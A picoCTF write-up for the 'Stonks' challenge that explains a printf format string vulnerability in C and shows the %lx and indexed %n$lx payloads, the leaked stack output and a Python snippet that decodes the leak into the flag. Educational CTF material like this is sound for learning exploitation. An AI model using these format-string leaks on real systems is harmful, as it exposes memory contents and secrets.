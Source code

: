 ```yaml
---
layout: post
tags:
  - sjqr:ua
  - writeup
  - picoctf
  - binary-exploitation
title: Stonks
---
```


[Original challenge *(requires login)*](https://play.picoctf.org/practice/challenge/105)

## Finding the vulnerability

I knew going into this that the vulnerability would be a `printf` format string-related one, which is pretty familiar territory for me.
When I set up my environment for the challenge, this was confirmed:

```
; gcc -Wall -Wextra vuln.c -o vuln.exe
stonks/vuln.c: In function ‘buy_stonks’:
stonks/vuln.c:93:2: warning: format not a string literal and no format arguments [-Wformat-security]
   93 |  printf(user_buf);
      |  ^~~~~~
# (omitted some unused variable warnings)
```

Just goes to show: Always compile with warnings.
It could have saved this dev from making this mistake.

It also saved *me* from having to dig for the vulnerable line, since it's... right there.
A very quick check shows that it's user input from when you're prompted to enter your API token:

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

The way this vulnerability is gonna work is pretty simple:
Because they called `printf` with *our input* as the format string, we can slide some `%lx`s in there.
Arguments to variadic functions like `printf` are passed on the stack, so any format specifiers we put in there will read data off the stack, and conveniently, that's where the flag is sitting:

```c
// FLAG_BUFFER == 128
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
  printf("Flag file not found. Contact an admin.\n");
  exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```

So it's just a matter of finding the right offset to start at, dumping enough to cover the length of the flag, and then parsing it.
Finding the offset is a bit tedious, but by putting a [de Bruijn](https://en.wikipedia.org/wiki/De_Bruijn_sequence) sequence in the flag file, it's pretty simple:

```py3
from pwn import *
cyclic_gen(string.digits).get(128)
# => '00001000200030004000500060007000800090011001200130014001500160017001800190021002200230024002500260027002800290031003200330034003'
```

Notice I picked `string.digits`: I'm gonna be looking at hex, and the byte value for each digit is just `0x30` plus that digit, which makes it easier to read.

## Testing and building

So now we build a format string.
I'm going to be using `%lx`, printing out `long`s as hex, and I'm gonna use 20, separated by `.`.
You could also do 20 `%016lx`; I just prefer the dots because I find it easier to reason about endianness if I can clearly see the chunks delimited.
Note the `l` in both, though: On my system, all arguments are treated as at least 8 bytes wide, and `%x` only prints out the last 4 of those bytes.
That's part of why I picked a de Bruijn sequence; it's long enough to fill up a lot of space while still being pretty easy to tell if anything is missing.

When we pass in the format string, we get out:

```
What is your API token?
%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx
Buying stonks with token:
7fe6f1a9b723.0.7fe6f19c01e7.1a.7fffffff.7ffcf52f0a40.556f3c9ac2a0.200000000.556f3c9ac6d0.556f3c9ad9e0.556f3c9ada00.3030303130303030.3030303330303032.3030303530303034.3030303730303036.3130303930303038.3130303231303031.3130303431303033.3130303631303035.3130303831303037
```

And we see, starting at 'argument' 12, our de Bruijn sequence: `3030303130303030` is `00010000`, which is the first eight bytes backwards.

## Cleaning it up

Now that we have our offsets, we can use a less brute-force approach and target the exact indices we actually want:

```py3
# flag is max. 128 bytes long, %lx prints 8 bytes per format specifier
'.'.join(f'%{i}$lx' for i in range(12, 12 + (128//8)))
# => %12$lx.%13$lx.%14$lx.%15$lx.%16$lx.%17$lx.%18$lx.%19$lx
```

The `%n$` syntax is a non-standard extension, but the server supports it, so it's fair game.
It lets us get an argument by index, rather than having to go through all of the arguments before it, and it makes parsing the output just a little easier.
It's not necessary, though, if your target doesn't support it.

```
What is your API token?
%12$lx.%13$lx.%14$lx.%15$lx.%16$lx.%17$lx.%18$lx.%19$lx
Buying stonks with token:
3030303130303030.3030303330303032.3030303530303034.3030303730303036.3130303930303038.3130303231303031.3130303431303033.3130303631303035
```

This output is pretty simple to parse:

```py3
resp = # ...
chunks = resp.split(b'.')
nums = (int(c, 16) for c in chunks)
byteses = (i.to_bytes(8, 'little') for i in nums)
flag_bytes = b''.join(byteses)[:MAX_FLAG]
flag = flag_bytes.decode('utf-8')
```

In order, that:

- Splits our period-separated chunks into just the chunks
- Parses each as an integer
- Converts that integer to little-endian bytes (this may need to be tweaked to work when running locally)
- Joins all the chunks of bytes together
- Converts that to text

Which gets us our flag!
It could also have been a "one-liner", but I chose to break it into small steps to make it easier to see, step by step, what was going on.

My [actual solution](./solve.py) has some extra bits to be self-contained; as long as you have a C compiler on your system accessible as `cc` -- which, after installing any C compiler on a Linux system, you should -- it'll compile `vuln.c`, copy your flag file next to it, and run it, all on its own.
It also of course includes the machinery to dump the stack on its own.
It *also* includes some extra machinery to handle the differences between my local machine and the server, trim the flag at the first null, etc.
But the bulk of the work, the actual reverse-engineering and exploitation, is what I've described in this post.
